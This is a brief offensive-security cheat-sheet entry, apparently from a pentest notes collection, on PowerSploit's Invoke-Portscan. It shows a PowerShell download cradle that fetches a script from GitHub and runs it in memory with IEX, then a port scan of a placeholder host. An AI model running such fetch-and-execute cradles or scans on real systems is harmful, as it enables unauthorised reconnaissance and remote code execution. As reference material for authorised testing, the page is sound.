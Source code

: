 # PowerSploit

Search Tag(s): #post-exploitation #enumeration-and-discovery #networking #offensive-tools #windows

## 01 - `Invoke-Portscan`

Download cradle.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1')
```

Perform portscan on hosts.

```
PS C:\> Invoke-Portscan -Hosts "<IP>" -TopPorts 50
```

---
## References

- [PowerSploit: Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1)